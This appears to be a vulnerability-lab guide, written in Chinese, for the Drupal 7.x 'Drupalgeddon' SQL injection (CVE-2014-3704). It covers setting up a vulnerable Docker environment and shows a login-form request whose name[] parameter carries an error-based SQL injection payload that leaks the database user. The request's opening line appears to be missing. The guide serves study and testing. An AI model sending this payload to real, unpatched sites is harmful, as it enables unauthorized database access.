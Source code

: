 # Drupal < 7.32 “Drupalgeddon” SQL注入漏洞（CVE-2014-3704）

Drupal 是一款用量庞大的CMS，其7.0~7.31版本中存在一处无需认证的SQL漏洞。通过该漏洞，攻击者可以执行任意SQL语句，插入、修改管理员信息，甚至执行任意代码。

## 漏洞环境

执行如下命令启动Drupal 7.31环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到Drupal的安装页面，使用默认配置安装即可。

其中，Mysql数据库名填写`drupal`，数据库用户名、密码为`root`，地址为`mysql`：

![](1.png)

安装完成后，访问首页：

![](2.png)


Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 120

pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,user()),0)%23]=bob&name[0]=a
```

可见，信息已被爆出：

![](3.png)
